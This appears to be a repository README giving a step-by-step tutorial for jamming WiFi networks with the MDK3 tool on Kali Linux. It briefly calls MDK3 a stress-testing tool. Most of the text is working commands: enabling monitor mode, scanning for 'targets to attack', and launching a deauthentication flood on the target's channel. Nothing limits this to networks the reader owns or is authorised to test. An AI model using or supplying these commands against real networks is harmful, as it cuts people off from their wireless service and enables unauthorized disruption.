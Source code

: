 # MDK3
<body style:"background-image:j.png">
WIFI jamming with MDK3

so today I am going to show you how to jam wifi networks with kali linux using MDK3.

<b>What is MDK3:</b> MDK3 is a proof of concept tool. It is used for stress testing 802.11 networks(wifi). It consists of various methods by which we can perform tests. Some of major method sare beacon flooding, deauthentication, WPA- dos etc. In pentests mdk is used for testing the network infrastructures having 802.11 implementations and ensuring compliance standards.

So lets begin:

1) Open up the terminal and type <b>"sudo apt install mdk3"</b>
<img src = "IMG_20200423_105410[1].jpg" height=250px >

2) Open up another terminal and start monitor mode by typing <b>"sudo airmon-ng start (interface)"</b>
   (you can check your interface by typing <b>"ifconfig"</b> my  interface is wlan0)
  
3) In the same terminal again type <b>"ifconfig"</b> to view the interace you have started monitor mode in (for example if your interface before was "wlan0" after montor made it will be changed to "wlan0mon")

4) Now we look for targets to attack on, for that type <b>"sudo airodump-ng ( monitor-mode interface)"</b>( press ctrl+c to stop the scan)
  <img src ="IMG_20200423_105616.jpg" height=250px width=300px>
  
5) Find the channel no. your target is on and then in the mdk3 terminal type <b>" sudo mdk3 (monitor-mode interface) d -c (your targets channel number)"</b>  example: <b>"sudo mdk3 wlan0mon d -c 10"</b>]


<br><br><br>
Now the wifi network of your target is jammed ad it wont staop until you stop the program by ressing ctrl+c
</body>

